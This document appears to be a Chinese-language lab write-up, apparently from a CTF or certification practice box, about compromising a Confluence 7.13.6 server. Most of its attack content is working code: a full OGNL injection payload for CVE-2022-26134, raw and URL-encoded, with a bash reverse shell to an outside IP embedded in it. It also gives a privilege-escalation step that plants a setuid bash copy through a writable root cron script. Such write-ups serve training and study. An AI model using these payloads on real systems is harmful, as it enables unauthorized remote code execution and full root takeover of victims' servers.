







# 信息收集

## nmap



```
/bin/bash -c bash${IFS}-i${IFS}>&/dev/tcp/192.168.45.177/80<&1
```

# 8090端口

存在版本号，直接搜索`confluence 7.13.6 exp`，就可以找到CVE-2022-26134，该版本存在未认证的远程命令执行



请求表达式：

```
${(#a=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec("id").getInputStream(),"utf-8")).(@com.opensymphony.webwork.ServletActionContext@getResponse().setHeader("X-Cmd-Response",#a))}
```

进行url编码之后就是

```
/%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22id%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/
```



使用的是java的getruntime.exec()函数进行命令执行，通过该函数如何反弹shell可以看这篇文章

[java Runtime.getRuntime().exec 获取反弹shell_java.lang.runtime.getruntime().exec-CSDN博客](./https://blog.csdn.net/whatday/article/details/107098353)

其中采用第二个payload，编码之后的内容如下:

```
/bin/bash%20-c%20$@%7Cbash%200%20echo%20bash%20-i%20%3E&/dev/tcp/192.168.45.171/80%200%3E&1
```

替换请求中的命令执行部分

```
/%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22/bin/bash%20-c%20$@%7Cbash%200%20echo%20bash%20-i%20%3E&/dev/tcp/192.168.45.177/80%200%3E&1%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/
```

然后本地监听就可以得到shell



# 提权

运行pspy查看靶机运行的进程可以知道以root权限在执行log-backup.sh，每五分钟执行一次



并且该文件可写



在文件中加入可以提权的代码等待执行就可以了

```
cp /bin/bash /tmp/0xdf; chmod 6777 /tmp/0xdf
```

